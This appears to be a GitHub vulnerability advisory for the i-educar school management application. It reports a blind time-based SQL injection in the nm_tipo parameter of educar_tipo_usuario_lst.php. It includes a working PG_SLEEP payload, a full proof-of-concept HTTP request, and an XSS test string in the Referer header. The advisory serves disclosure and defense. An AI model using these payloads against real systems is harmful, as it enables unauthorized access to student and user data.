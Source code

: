 # SQL Injection (Blind Time-Based) Vulnerability in nm_tipo Parameter on educar_tipo_usuario_lst.php Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `educar_tipo_usuario_lst.php` endpoint of the _i-educar_ application, specifically in the `nm_tipo` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/educar_tipo_usuario_lst.php`  
**Parameter:** `nm_tipo`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Configurations > Permissions > User Types**.

<img width="1287" height="743" alt="image" src="https://github.com/user-attachments/assets/98b9d0b0-f178-4fec-8a54-0257b2fe2c8a" />


Additionally, exploiting this vulnerability requires an account with permissions to **create/list users and user types**.

The application fails to properly validate and sanitize user input in the `nm_tipo` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'%20AND%208767%3D(SELECT%208767%20FROM%20PG_SLEEP(10))%20OR%20'EgwO'%3D'pMdZ`

**Decoded Payload:**

`' AND 8767=(SELECT 8767 FROM PG_SLEEP(10)) OR 'EgwO'='pMdZ`

This payload triggers a **10-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
GET /intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=1'%20AND%208767%3D(SELECT%208767%20FROM%20PG_SLEEP(10))%20OR%20'EgwO'%3D'pMdZ&descricao=1&nivel=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&descricao=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&nivel=-1
Cookie: grav-admin-flexpages=eyJyb3V0ZSI6Ii9ob21lIiwiZmlsdGVycyI6e319; grav-tabs-state={%22tab--f0e041eed24f87f2b6b02fd6924d0a08%22:%22data.languages%22%2C%22tab-flex-pages-e838602f51515c83bca06a8ae758ce52%22:%22data.security%22%2C%22tab-flex-pages-b6676b27f5cdf6b6c22f8e18da4259a0%22:%22data.advanced%22%2C%22tab-flex-pages-raw-8f0a83a672754f7823714134334b1de8%22:%22data.content%22%2C%22tab-flex-pages-dc26c564cb2116d77bda5fff24ba90dc%22:%22data.security%22%2C%22tab-flex_conf-user_groups-accounts-02f0e9f68f41a0648ed530f80bd72c06%22:%22data.cache%22%2C%22tab-flex-pages-raw-9a0364b9e99bb480dd25e1f0284c8555%22:%22data.content%22%2C%22tab-flex-pages-e91e6348157868de9dd8b25c81aebfb9%22:%22data.security%22%2C%22tab--8cc45760590da203c5fc3568ecbabd66%22:%22data.routes%22%2C%22tab--7a2ac3477f8ad14aa750831441325a16%22:%22data.facebook%22}; i_educar_session=hRnVO9PXmAH7dVAd7DsTeTgExwM6ccdtZZaCcpob
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

<img width="1149" height="1030" alt="image" src="https://github.com/user-attachments/assets/c6124f41-570f-4d12-8a86-04b3d15c0715" />


Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features


## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
